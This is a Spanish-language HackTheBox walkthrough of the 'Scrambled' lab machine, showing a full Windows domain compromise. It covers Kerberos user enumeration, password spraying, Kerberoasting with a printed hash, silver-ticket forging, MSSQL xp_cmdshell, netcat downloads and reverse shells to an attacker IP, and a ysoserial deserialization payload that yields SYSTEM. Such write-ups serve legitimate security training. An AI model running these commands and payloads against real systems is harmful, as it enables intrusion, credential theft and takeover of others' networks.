

Resolución de la máquina Scrambled de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap y podemos ver un dominio
❯ nmap -sC 10.10.11.168
Nmap scan report for 10.10.11.168
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
| ssl-cert: Subject: commonName=DC1.scrm.local
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
1433/tcp open ms-sql-s
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
4411/tcp open found
Como kerberos esta abierto podemos intentar conseguir usuarios válidos con un diccionario
Para esto utilizaremos kerbrute y un diccionario de el siguiente repositorio
❯ kerbrute userenum -d scrm.local --dc dc1.scrm.local A-ZSurnames.txt
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
> Using KDC(s):
> dc1.scrm.local:88
> [+] VALID USERNAME: ASMITH@scrm.local
> [+] VALID USERNAME: KSIMPSON@scrm.local
> [+] VALID USERNAME: SJENKINS@scrm.local
> [+] VALID USERNAME: JHALL@scrm.local
> [+] VALID USERNAME: KHICKS@scrm.local
> Done! Tested 13000 usernames (5 valid) in 67.163 seconds
Obtenemos algunos usuarios validos, de ellos ksimpson usa su usuario como contraseña
❯ kerbrute passwordspray -d scrm.local --dc dc1.scrm.local users.txt ksimpson
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
> Using KDC(s):
> dc1.scrm.local:88
> [+] VALID LOGIN: KSIMPSON@scrm.local:ksimpson
> Done! Tested 5 logins (1 successes) in 0.132 seconds
Con estas credenciales solicitaremos un ticket para después autenticarnos con kerberos
❯ impacket-getTGT scrm.local/ksimpson:ksimpson
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021
[*] Saving ticket in ksimpson.ccache
Ahora con este ticket, podemos conseguir un hash del usuario sqlsvc
❯ export KRB5CCNAME=ksimpson.ccache
❯ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
---------------------------- ------ -------- -------------------------- -------------------------- ----------
MSSQLSvc/dc1.scrm.local:1433 sqlsvc 2021-11-03 10:32:02.351452 2022-07-18 18:28:28.115490
MSSQLSvc/dc1.scrm.local sqlsvc 2021-11-03 10:32:02.351452 2022-07-18 18:28:28.115490
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$eee76754ccb373aee4f1863840cb6caa$c1e3b23d1cddf8ba5c744d131990c90ca2552eb7075ecdd6e85f77942055e678fc106480c3a5e8fb526ca7927a961bda6be52dfc5eb4874fbdea74697e670369fc1de2a9bfb7bee032c3d1e5c916633e6a5a105df8a97c4f0ca64a86cb3a5f53cff325f0a5ca5e51a361e82c1ec62ec5610a2c4dc6c0dd0f6b6a2146276b9437a1d6edd9addeed0cb7a5e281a057731cfba7d88406fa02a5954bed196e5be5682bed65b58a95114b0a0d2a788e9966d10f252e491792744ab3cf6b97595fb2a87141b911a15104f1626cf526b020a0c3d005f4bf3c2ac3827cfcff318f55d5acd1be35e26d9e145e07a719adcd56254aaa0abdc5cd4fe0a4b9a91cb7f74e4b1e813e1f97c8708bbb4ecde2116e57b1d19310dc9bce6b6c419eb8ba3024c404d18c757f757e309936e183a63e0ead072a3e7a6f8497d2b871b9235eb471aacbe959f4fcb1e982ebae3af50edefcb6f61a1e0d3cf18a0cdfbf286186f11207dafb4a8cbe1ac8eb331ff516b4c0cd449dc2772bc8a127e5689bc617ef6ba8bc4ba456f03a8ca1c3c8044e1e4e353500338aefef54f9e63548e70aae38b9fb9f9b17e53fb3f4f8f065d4e54456b5daa83eda4579c82a89cab473e109c91a9580f39b316854e386353eea6b8cace97234073284c3052a08223e0d894b5934df79bd64942b35221fde6a353fdd39ae1cfb6cc4fd75e5312e946d37057754b3f0db6de14b94b3841751b61b0ff6ca9d9724ad7ae42a75838665299d5e512967156d29e8dc54397d1a72c591584e10f590885d98a4c1c312408a2ee9e445069cd26c0a3b19b476b303795826be1f76a1f928b2226824f68b65d5874dfeb40b60ca53263cb96e471839a467d1c279f58afad62773151c0d07940beaeb43acf73f1547e745f18794bf6e74706d7388db39cca42b157d0b13693c723e8d5fe49aac9d04363036e0bb6a4dc0a4bab67b207e1dc6d3cd7d3aacbeee2b11d06078fd6a5efd09557bae517bc92ed9657817c7e1f917c9174b28d84abbefa1f10a651a91b50c563b6913c5c1b447af1a80a8a44b9749916c10189395817afd61698ae2509c3e403dd73240bedabca9bda9c7b15745cb13600937b99728f13f84f2d46dd064bb7f830387cca879f3e10362a2cbe67689186054f83bd05a9366cfc75207c63935027e930d09807a6a0015c1cef08fa5b9ab39df8843db4e21f9020a9972fd3832a493a6bd6c1e8b3629f319bc83ca322269b245f496541cfafeedac06f25701b00204d7077a47b3af536d7e8484292796e8f6b69aded74c2dc34a92292462b04c657da6a171f1c2f0af07f3622eeb8d4aa517d1ddf7b1f4bc0bee3fab2c81728d0e36498802d4097fd6eb1361bb5c77c6ae8eb2e08d2e88cf6b2b792eb69172345484d9ea5fe26c50e3e0588c97e4272528f96691077cafcaa59fa5ab47
Al aplicar fuerza bruta al hash obtenemos la contraseña Pegasus60
❯ john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Pegasus60 (sqlsvc)
Session completed
Con secretsdump en modo debug podemos obtener el sid del dominio
❯ impacket-secretsdump -k scrm.local/ksimpson@dc1.scrm.local -no-pass -debug
[+] Using Kerberos Cache: krb_ccache
[+] SPN CIFS/DC1.SCRM.LOCAL@SCRM.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/SCRM.LOCAL@SCRM.LOCAL
[+] Using TGT from cache
[+] Trying to connect to KDC at SCRM.LOCAL
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Session resume file will be sessionresume_UQuuEZWh
[+] Trying to connect to KDC at SCRM.LOCAL
[+] Calling DRSCrackNames for S-1-5-21-2743207045-1827831105-2542523200-500
[+] Calling DRSGetNCChanges for {edaf791f-e75b-4711-8232-3cd66840032a}
[*] Cleaning up...
Con ayuda de codebeautify podemos convertir la contraseña a un hash ntlm

Podemos obtener un ticket con la información que tenemos esta vez para el usuario sqlsvc
❯ impacket-ticketer -domain scrm.local -spn MSSQLSVC/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in Administrator.ccache
Con este ticket podemos autenticarnos a sql con mssqlclient
❯ export KRB5CCNAME=Administrator.ccache
❯ impacket-mssqlclient dc1.scrm.local -k -no-pass
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL>
Mirando el contenido de la base de datos encontramos credenciales
SQL> SELECT name FROM master.dbo.sysdatabases
name
---------------------------------------------------------------------
master
tempdb
model
msdb
ScrambleHR
SQL> use ScrambleHR
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: ScrambleHR
[*] INFO(DC1): Line 1: Changed database context to 'ScrambleHR'.
SQL> select * from UserImport
LdapUser LdapPwd LdapDomain
----------------- -------------------------- -------------------
MiscSvc ScrambledEggs9900 scrm.local
SQL>
Tambien podemos habilitar xp_cmdshell para ejecutar comandos como sqlsvc
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------
scrm\sqlsvc
NULL
SQL>
Ahora podemos compartir y traer netcat de nuestro equipo para obtener una powershell
SQL> xp_cmdshell curl 10.10.14.10/netcat.exe -o C:\Temp\netcat.exe
output
------------------------------------------------------------------------
% Total % Received % Xferd Average Speed Time Time Time
Dload Upload Total Spent Left
100 45272 100 45272 0 0 97638 0 --:--:-- --:--:-- --:--:--
NULL
SQL> xp_cmdshell C:\Temp\netcat.exe -e powershell 10.10.14.10 443
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.168
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
scrm\sqlsvc
PS C:\Windows\system32> hostname
DC1
PS C:\Windows\system32>
Con powershell podemos usar las credenciales que encontramos antes para ejecutar comandos
PS C:\Windows\system32> $SecPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
PS C:\Windows\system32> $Cred = New-Object System.Management.Automation.PSCredential('Scrm\MiscSvc', $SecPassword)
PS C:\Windows\system32> Invoke-Command -Computer dc1 -Credential $Cred -Command { whoami }
scrm\miscsvc
PS C:\Windows\system32>
Ahora podemos enviarnos una powershell y conseguir la flag del usuario
PS C:\Windows\system32> Invoke-Command -Computer dc1 -Credential $Cred -Command { cmd /c C:\Temp\netcat.exe -e powershell 10.10.14.10 443 }
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.168
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Users\miscsvc\Documents> whoami
scrm\miscsvc
PS C:\Users\miscsvc\Documents> type ..\Desktop\user.txt
8aa**************************b6b
PS C:\Users\miscsvc\Documents>
Encontramos un directorio con un dll y un exe, y parece que es lo que corre en el puerto 4411
PS C:\Shares\IT\Apps\Sales Order Client> dir
Directory: C:\Shares\IT\Apps\Sales Order Client
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 05/11/2021 20:52 86528 ScrambleClient.exe
-a---- 05/11/2021 20:52 19456 ScrambleLib.dll
Encontramos en la funcion UploadOrder una deserialización que podemos explotar
public void UploadOrder(SalesOrder NewOrder)
{
try
{
Log.Write("Uploading new order with reference " + NewOrder.ReferenceNumber);
string text = NewOrder.SerializeToBase64();
Log.Write("Order serialized to base64: " + text);
ScrambleNetResponse scrambleNetResponse = this.SendRequestAndGetResponse(new ScrambleNetRequest(ScrambleNetRequest.RequestType.UploadOrd...
ScrambleNetResponse.ResponseType type = scrambleNetResponse.Type;
if (type != ScrambleNetResponse.ResponseType.Success)
{
throw new ApplicationException(scrambleNetResponse.GetErrorDescription());
}
Log.Write("Upload successful");
}
catch (Exception expr_5F)
{
ProjectData.SetProjectError(expr_5F);
Exception ex = expr_5F;
Log.Write("Error: " + ex.Message);
throw ex;
}
}
Con ayuda de ysoserial en un windows crearemos una data que nos envie una powershell
pc1@windows C:\CTF\ysoserial> .\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "C:\Temp\netcat.exe -e powershell 10.10.14.10 443"
AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAA/AlBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBM2dVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0T0NJL1BnMEtQRTlpYW1WamRFUmhkR0ZRY205MmFXUmxjaUJOWlhSb2IyUk9ZVzFsUFNKVGRHRnlkQ0lnU1hOSmJtbDBhV0ZzVEc5aFpFVnVZV0pzWldROUlrWmhiSE5sSWlCNGJXeHVjejBpYUhSMGNEb3ZMM05qYUdWdFlYTXViV2xqY205emIyWjBMbU52YlM5M2FXNW1lQzh5TURBMkwzaGhiV3d2Y0hKbGMyVnVkR0YwYVc5dUlpQjRiV3h1Y3pwelpEMGlZMnh5TFc1aGJXVnpjR0ZqWlRwVGVYTjBaVzB1UkdsaFoyNXZjM1JwWTNNN1lYTnpaVzFpYkhrOVUzbHpkR1Z0SWlCNGJXeHVjenA0UFNKb2RIUndPaTh2YzJOb1pXMWhjeTV0YVdOeWIzTnZablF1WTI5dEwzZHBibVo0THpJd01EWXZlR0Z0YkNJK0RRb2dJRHhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWEl1VDJKcVpXTjBTVzV6ZEdGdVkyVStEUW9nSUNBZ1BITmtPbEJ5YjJObGMzTStEUW9nSUNBZ0lDQThjMlE2VUhKdlkyVnpjeTVUZEdGeWRFbHVabTgrRFFvZ0lDQWdJQ0FnSUR4elpEcFFjbTlqWlhOelUzUmhjblJKYm1adklFRnlaM1Z0Wlc1MGN6MGlMMk1nUXpwY1ZHVnRjRnh1WlhSallYUXVaWGhsSUMxbElIQnZkMlZ5YzJobGJHd2dNVEF1TVRBdU1UUXVNVEFnTkRReklpQlRkR0Z1WkdGeVpFVnljbTl5Ulc1amIyUnBibWM5SW50NE9rNTFiR3g5SWlCVGRHRnVaR0Z5WkU5MWRIQjFkRVZ1WTI5a2FXNW5QU0o3ZURwT2RXeHNmU0lnVlhObGNrNWhiV1U5SWlJZ1VHRnpjM2R2Y21ROUludDRPazUxYkd4OUlpQkViMjFoYVc0OUlpSWdURzloWkZWelpYSlFjbTltYVd4bFBTSkdZV3h6WlNJZ1JtbHNaVTVoYldVOUltTnRaQ0lnTHo0TkNpQWdJQ0FnSUR3dmMyUTZVSEp2WTJWemN5NVRkR0Z5ZEVsdVptOCtEUW9nSUNBZ1BDOXpaRHBRY205alpYTnpQZzBLSUNBOEwwOWlhbVZqZEVSaGRHRlFjbTkyYVdSbGNpNVBZbXBsWTNSSmJuTjBZVzVqWlQ0TkNqd3ZUMkpxWldOMFJHRjBZVkJ5YjNacFpHVnlQZ3M9Cw==
pc1@windows C:\CTF\ysoserial>
Con netcat nos conectaremos al puerto 4411 y enviaremos la data despues de la función
❯ netcat 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAEAQAAAClTeXN0ZW0uU2VjdXJpdHkuUHJpbmNpcGFsLldpbmRvd3NJZGVudGl0eQEAAAAkU3lzdGVtLlNlY3VyaXR5LkNsYWltc0lkZW50aXR5LmFjdG9yAQYCAAAA/AlBQUVBQUFELy8vLy9BUUFBQUFBQUFBQU1BZ0FBQUY1TmFXTnliM052Wm5RdVVHOTNaWEpUYUdWc2JDNUZaR2wwYjNJc0lGWmxjbk5wYjI0OU15NHdMakF1TUN3Z1EzVnNkSFZ5WlQxdVpYVjBjbUZzTENCUWRXSnNhV05MWlhsVWIydGxiajB6TVdKbU16ZzFObUZrTXpZMFpUTTFCUUVBQUFCQ1RXbGpjbTl6YjJaMExsWnBjM1ZoYkZOMGRXUnBieTVVWlhoMExrWnZjbTFoZEhScGJtY3VWR1Y0ZEVadmNtMWhkSFJwYm1kU2RXNVFjbTl3WlhKMGFXVnpBUUFBQUE5R2IzSmxaM0p2ZFc1a1FuSjFjMmdCQWdBQUFBWURBQUFBM2dVOFAzaHRiQ0IyWlhKemFXOXVQU0l4TGpBaUlHVnVZMjlrYVc1blBTSjFkR1l0T0NJL1BnMEtQRTlpYW1WamRFUmhkR0ZRY205MmFXUmxjaUJOWlhSb2IyUk9ZVzFsUFNKVGRHRnlkQ0lnU1hOSmJtbDBhV0ZzVEc5aFpFVnVZV0pzWldROUlrWmhiSE5sSWlCNGJXeHVjejBpYUhSMGNEb3ZMM05qYUdWdFlYTXViV2xqY205emIyWjBMbU52YlM5M2FXNW1lQzh5TURBMkwzaGhiV3d2Y0hKbGMyVnVkR0YwYVc5dUlpQjRiV3h1Y3pwelpEMGlZMnh5TFc1aGJXVnpjR0ZqWlRwVGVYTjBaVzB1UkdsaFoyNXZjM1JwWTNNN1lYTnpaVzFpYkhrOVUzbHpkR1Z0SWlCNGJXeHVjenA0UFNKb2RIUndPaTh2YzJOb1pXMWhjeTV0YVdOeWIzTnZablF1WTI5dEwzZHBibVo0THpJd01EWXZlR0Z0YkNJK0RRb2dJRHhQWW1wbFkzUkVZWFJoVUhKdmRtbGtaWEl1VDJKcVpXTjBTVzV6ZEdGdVkyVStEUW9nSUNBZ1BITmtPbEJ5YjJObGMzTStEUW9nSUNBZ0lDQThjMlE2VUhKdlkyVnpjeTVUZEdGeWRFbHVabTgrRFFvZ0lDQWdJQ0FnSUR4elpEcFFjbTlqWlhOelUzUmhjblJKYm1adklFRnlaM1Z0Wlc1MGN6MGlMMk1nUXpwY1ZHVnRjRnh1WlhSallYUXVaWGhsSUMxbElIQnZkMlZ5YzJobGJHd2dNVEF1TVRBdU1UUXVNVEFnTkRReklpQlRkR0Z1WkdGeVpFVnljbTl5Ulc1amIyUnBibWM5SW50NE9rNTFiR3g5SWlCVGRHRnVaR0Z5WkU5MWRIQjFkRVZ1WTI5a2FXNW5QU0o3ZURwT2RXeHNmU0lnVlhObGNrNWhiV1U5SWlJZ1VHRnpjM2R2Y21ROUludDRPazUxYkd4OUlpQkViMjFoYVc0OUlpSWdURzloWkZWelpYSlFjbTltYVd4bFBTSkdZV3h6WlNJZ1JtbHNaVTVoYldVOUltTnRaQ0lnTHo0TkNpQWdJQ0FnSUR3dmMyUTZVSEp2WTJWemN5NVRkR0Z5ZEVsdVptOCtEUW9nSUNBZ1BDOXpaRHBRY205alpYTnpQZzBLSUNBOEwwOWlhbVZqZEVSaGRHRlFjbTkyYVdSbGNpNVBZbXBsWTNSSmJuTjBZVzVqWlQ0TkNqd3ZUMkpxWldOMFJHRjBZVkJ5YjNacFpHVnlQZ3M9Cw==
Recibimos la shell como nt authority system y podemos leer la ultima flag
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.168
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
71c**************************11e
PS C:\Windows\system32>